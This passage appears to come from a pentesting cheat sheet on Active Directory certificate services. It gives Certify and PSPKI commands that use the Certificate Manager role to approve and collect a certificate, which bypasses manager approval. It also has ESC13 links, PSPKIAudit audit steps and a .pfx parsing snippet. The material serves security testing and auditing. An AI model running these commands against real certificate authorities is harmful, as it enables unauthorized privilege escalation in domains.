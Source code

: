 The "Certificate Manager" role allows to remotely approve pending certificate requests which can by used by an adversary to subvert the "CA certificate manager approval" protection:

```
# Request a certificate that requires manager approval with Certify
PS > .\Certify.exe request /ca:CA01.megacorp.local\CorpCA /template:ApprovalNeeded
...
[*] Request ID : 1337

# Approve a pending request with PSPKI
PSPKI > Get-CertificationAuthority -ComputerName CA01.megacorp.local | Get-PendingRequest -RequestID 1337 | Approve-CertificateRequest

# Download the issued certificate with Certify
PS > .\Certify.exe download /ca:CA01.megacorp.local\CorpCA /id:1337
```



### OID Group Link Abuse (ESC13)

- [https://posts.specterops.io/adcs-esc13-abuse-technique-fda4272fbd53](https://posts.specterops.io/adcs-esc13-abuse-technique-fda4272fbd53)
- [https://github.com/JonasBK/Powershell/blob/master/Check-ADCSESC13.ps1](https://github.com/JonasBK/Powershell/blob/master/Check-ADCSESC13.ps1)




## Audit

- [https://github.com/GhostPack/PSPKIAudit](https://github.com/GhostPack/PSPKIAudit)
- [https://github.com/TrimarcJake/adcs-snippets](https://github.com/TrimarcJake/adcs-snippets)

```
PS > Get-WindowsCapability -Online -Name "Rsat.*" | where Name -match "CertificateServices|ActiveDIrectory" | Add-WindowsCapability -Online
PS > cd PSPKIAudit
PS > Get-ChildItem -Recurse | Unblock-File
PS > Import-Module .\PSPKIAudit.psm1
PS > Invoke-PKIAudit -CAComputerName CA01.megacorp.local
```




## Misc

Parse `.pfx` with PowerShell:

```
PS > $cert = [System.Security.Cryptography.X509Certificates.X509Certificate2]([System.Convert]::FromBase64String("<BASE64_PFX_CERT>"))
PS > $cert | select *
```

Generate a self-signed certificate to test a web app for misconfigured cert-based authentication:
